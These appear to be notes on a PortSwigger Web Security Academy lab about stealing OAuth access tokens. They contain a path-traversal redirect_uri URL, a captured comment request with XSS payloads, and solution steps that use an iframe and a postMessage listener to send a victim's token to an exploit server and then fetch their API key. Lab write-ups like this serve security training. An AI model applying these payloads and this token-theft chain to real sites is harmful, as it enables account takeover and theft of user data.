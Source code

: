 Path Traversial

```
https://oauth-0a78003d0399b33980e03336028f0010.oauth-server.net/auth?client_id=xp2jx85eak8ui2zisq149&redirect_uri=https://0a74006c03bdb3ab80c435a800f800dd.web-security-academy.net/oauth-callback/../../post?postId=10&response_type=token&nonce=1960647069&scope=openid%20profile%20email
```

Open redirect By embeded link
```
POST /post/comment HTTP/2
Host: 0a74006c03bdb3ab80c435a800f800dd.web-security-academy.net
Cookie: session=POqtUTpAXyDqr0lqiIjLEQ2zPda5mI3m
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a74006c03bdb3ab80c435a800f800dd.web-security-academy.net/post?postId=10
Content-Type: text/plain;charset=UTF-8
Content-Length: 239
Origin: https://0a74006c03bdb3ab80c435a800f800dd.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

comment=<script>onload=alert(1)</script>&name=<script>onload=alert(1)</script>&email=test@ttes.com&website=<h1>https://exploit-0aaa00bc03b1b35c808234f901a80058.exploit-server.net/exploit</h1>&postId=10&csrf=KueDRs3DUPAg8PDlLOlzJDHbcC7LTnMi
```

Solution 

1. Study the OAuth flow while proxying traffic through Burp. Using the same method as in the [previous lab](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect), identify that the `redirect_uri` is vulnerable to [directory traversal](https://portswigger.net/web-security/file-path-traversal). This enables you to redirect access tokens to arbitrary pages on the blog website.
2. Using Burp, audit the other pages on the blog website. Observe that the comment form is included as an `iframe` on each blog post. Look closer at the `/post/comment/comment-form` page in Burp and notice that it uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).
3. From the proxy history, right-click on the `GET /auth?client_id=[...]` request and select "Copy URL". Go to the exploit server and create an `iframe` in which the `src` attribute is the URL you just copied. Use directory traversal to change the `redirect_uri` so that it points to the comment form. The result should look something like this:
    
    `<iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>`
    
1. Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:
    
    `<script> window.addEventListener('message', function(e) { fetch("/" + encodeURIComponent(e.data.data)) }, false) </script>`
    
1. To check the exploit is working, store it and then click "View exploit". Make sure that the `iframe` loads then go to the exploit server's access log. There should be a request for which the path is the full URL of the comment form, along with a fragment containing the access token.
2. Go back to the exploit server and deliver this exploit to the victim. Copy their access token from the log. Make sure you don't accidentally include any of the surrounding URL-encoded characters.
3. Send the `GET /me` request to Burp Repeater. In Repeater, replace the token in the `Authorization: Bearer` header with the one you just copied and send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
4. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.